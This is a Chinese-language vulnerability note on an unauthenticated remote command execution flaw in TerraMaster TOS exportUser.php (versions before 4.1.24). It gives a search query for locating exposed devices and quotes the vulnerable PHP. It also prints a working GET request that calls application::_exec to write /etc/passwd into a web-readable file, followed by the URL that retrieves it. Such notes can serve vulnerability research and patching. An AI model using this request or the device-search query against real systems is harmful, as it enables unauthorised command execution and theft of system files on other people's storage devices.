

# TerraMaster TOS exportUser.php 远程命令执行

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.1.24</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件 `*exportUser.php`*

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```


在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于`include/class/application.class.php`中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```plain
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt
```

返回200后再次访问

```plain
http://xxx.xxx.xxx.xxx/include/test.txt
```

